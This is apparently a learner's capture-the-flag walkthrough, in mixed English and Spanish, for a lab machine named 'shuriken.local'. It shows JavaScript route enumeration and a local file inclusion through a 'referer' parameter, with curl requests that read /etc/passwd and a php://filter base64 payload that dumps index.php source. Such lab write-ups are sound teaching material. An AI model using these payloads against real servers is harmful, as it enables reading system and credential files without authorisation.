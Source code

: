 Now, when we look on the url, we see that it is avaliable to a bruteforce attack but first we are going to enumerate the website


we have this url 

http://192.168.0.75/js/index__7ed54732.js

and a big code of javascript verty hard to read, so we are going to watch on javascript beautifier.


in the folder 192.168.0.75/secret/ 
it is an image, but this guy says that this hasnot occult information
esteganography

```
La esteganografía trata el estudio y aplicación de técnicas que permiten ocultar mensajes u objetos, dentro de otros, llamados portadores, para que no se perciba su existencia.
```

It is not necesary to understand all the code, but it is interesting to watch routes or other things on the javascript code

we  found this ones

```
http://broadcast.shuriken.local
# sourceMappingURL=index_7ed54732.js.map

"http://shuriken.local/index.php?referer="
# sourceMappingURL=index_d8338055.js.map

```

So ,i try to search on http://shuriken.local/index.php?referer= but the conecction refuses me in, but if i put myself on a console

curl -s -X GET http://shuriken.local/index.php?referer=

and i try to get some resource , for example /etc/passwd I can read the files

but what does -s and -X in curl ?

-s (silent) Silent mode... and X ?
-X (X is a request) --request < method >

This two ussers can execute a bash

```
root:x:0:0:root:/root:/bin/bash
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
```

So, in this point when we do the petitions to the server, we are in the "index.php" , and we can go to another routes.

If you want to see only the index.php you must do this

php://filter/convert.base64-encode/resource=index.php

and we can see only the archive, otherwise we will get into a infinite "bucle"
```
http://shuriken.local/index.php?referer=php://filter/convert.base64-encode/resource=index.php
```
(this is a #WRAPER, decodification on base64)
